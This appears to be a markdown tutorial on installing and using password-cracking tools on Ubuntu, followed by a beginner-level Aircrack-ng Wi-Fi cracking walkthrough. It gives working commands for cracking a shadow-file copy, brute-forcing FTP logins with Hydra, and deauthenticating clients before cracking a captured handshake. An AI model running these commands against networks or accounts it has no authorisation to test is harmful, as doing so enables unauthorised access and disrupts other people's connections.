 ```markdown
# Password Cracking Tools on Ubuntu

## John the Ripper

### Installation
```sh
sudo apt-get update
sudo apt-get install john
```

### Usage Example
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt /home/sysadmin/shadow_copy
john --show /home/sysadmin/shadow_copy
```

## Hashcat

### Installation
```sh
sudo apt-get update
sudo apt-get install hashcat
```

### Usage Example
```sh
hashcat -m 0 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt
```

## Hydra

### Installation
```sh
sudo apt-get update
sudo apt-get install hydra
```

### Usage Example
```sh
hydra -l username -P /usr/share/wordlists/rockyou.txt ftp://target_ip
```

## Cain and Abel

### Note
Cain and Abel is a Windows-based tool and does not run natively on Ubuntu. You can use Wine to run it on Ubuntu.

### Installation with Wine
```sh
sudo apt-get update
sudo apt-get install wine
wget http://www.oxid.it/downloads/cainsetup.exe
wine cainsetup.exe
```

## Aircrack-ng

### Installation
```sh
sudo apt-get update
sudo apt-get install aircrack-ng
```

### Usage Example
```sh
airmon-ng start wlan0
airodump-ng wlan0mon
aireplay-ng -0 0 -a <BSSID> wlan0mon
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <BSSID> capture_file.cap
```

## Ophcrack

### Installation
```sh
sudo apt-get update
sudo apt-get install ophcrack
```

### Usage Example
```sh
ophcrack -g
```

## RainbowCrack

### Installation
```sh
sudo apt-get update
sudo apt-get install rainbowcrack
```

### Usage Example
```sh
rtgen md5 loweralpha-numeric 1 7 0 2400 8000000 all
rtsort .
rcrack . -h <hash>
```


This document provides installation and usage examples for popular password cracking tools on an Ubuntu server. Use these commands to practice and learn how to use each tool effectively.

```markdown
# Password Cracking Tools on Ubuntu

## Aircrack-ng

### What is Aircrack-ng?
Aircrack-ng is a tool that helps you test the security of Wi-Fi networks. It can help you see if your Wi-Fi password is strong or if someone else can guess it easily.

### Installation
First, we need to install Aircrack-ng on our Ubuntu computer. Open the terminal and type the following commands:

```sh
sudo apt-get update
sudo apt-get install aircrack-ng
```

### How to Use Aircrack-ng

1. **Start Monitoring Mode**
   - We need to put our Wi-Fi adapter into "monitor mode" so it can listen to all the Wi-Fi traffic around us.
   - Type this command in the terminal:
     ```sh
     sudo airmon-ng start wlan0
     ```
   - `wlan0` is the name of the Wi-Fi adapter. It might be different on your computer. You can check the name by typing `ifconfig`.

2. **Capture Wi-Fi Traffic**
   - Now, we need to capture the Wi-Fi traffic. This means we will listen to all the data being sent over the Wi-Fi network.
   - Type this command in the terminal:
     ```sh
     sudo airodump-ng wlan0mon
     ```
   - `wlan0mon` is the name of the Wi-Fi adapter in monitor mode. This command will show a list of all the Wi-Fi networks around you.

3. **Select a Target Network**
   - Find the Wi-Fi network you want to test and note down its BSSID (a unique identifier for the network) and channel number.
   - Type this command in the terminal to start capturing data from the target network:
     ```sh
     sudo airodump-ng --bssid <BSSID> --channel <channel> -w capture wlan0mon
     ```
   - Replace `<BSSID>` with the BSSID of the target network and `<channel>` with the channel number.

4. **Deauthenticate a Client (Optional)**
   - To speed up the process, we can disconnect a device from the Wi-Fi network temporarily. This will force the device to reconnect and send the password again.
   - Type this command in the terminal:
     ```sh
     sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
     ```
   - Replace `<BSSID>` with the BSSID of the target network.

5. **Crack the Password**
   - Once we have captured enough data, we can try to guess the Wi-Fi password using a wordlist (a list of possible passwords).
   - Type this command in the terminal:
     ```sh
     sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <BSSID> capture-01.cap
     ```
   - Replace `<BSSID>` with the BSSID of the target network. `capture-01.cap` is the file where the captured data is saved.

### Summary
Aircrack-ng is a powerful tool that helps you test the security of Wi-Fi networks. By following these steps, you can see if your Wi-Fi password is strong enough to keep others from guessing it. Remember, always use this tool responsibly and only on networks you have permission to test.

---

This document provides a detailed explanation of how to use Aircrack-ng, written in a way that a 5th grader can understand. Use these steps to practice and learn how to test Wi-Fi network security.
```
